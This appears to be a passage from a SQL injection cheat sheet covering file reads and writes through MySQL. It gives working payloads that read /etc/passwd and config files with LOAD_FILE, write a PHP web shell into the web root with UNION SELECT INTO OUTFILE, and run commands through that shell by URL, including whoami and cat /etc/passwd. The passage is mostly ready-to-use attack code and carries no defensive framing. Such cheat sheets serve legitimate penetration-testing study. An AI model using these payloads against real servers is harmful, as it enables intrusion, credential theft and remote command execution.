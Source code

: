 ### Reading Files
```sql
SELECT LOAD_FILE('/etc/passwd')
SELECT LOAD_FILE('/var/www/html/config.php')
```

### Writing Files
```sql
SELECT 'content' INTO OUTFILE '/path/to/file.txt'
UNION SELECT 'web shell code' INTO OUTFILE '/var/www/html/shell.php'-- -
```

#### Requirements for File Writing
1. User has **FILE** privilege
2. `secure_file_priv` allows target location
3. User has write access to target directory

---

## Web Shell Exploitation

### Process Overview
1. **Identify web root directory**
2. **Write web shell file**
3. **Access shell via web browser**

### Common Web Root Directories

| OS          | Common Paths                                            |
| ----------- | ------------------------------------------------------- |
| **Linux**   | `/var/www/html/`, `/var/www/`, `/usr/share/nginx/html/` |
| **Windows** | `C:\inetpub\wwwroot\`, `C:\xampp\htdocs\`               |

### Web Shell Examples

#### PHP Web Shell
```php
<?php system($_REQUEST[0]); ?>
```

#### Complete Injection
```sql
UNION SELECT '<?php system($_REQUEST[0]); ?>' INTO OUTFILE '/var/www/html/shell.php'-- -
```

#### Usage
```
http://target.com/shell.php?0=ls
http://target.com/shell.php?0=whoami
http://target.com/shell.php?0=cat /etc/passwd
```

---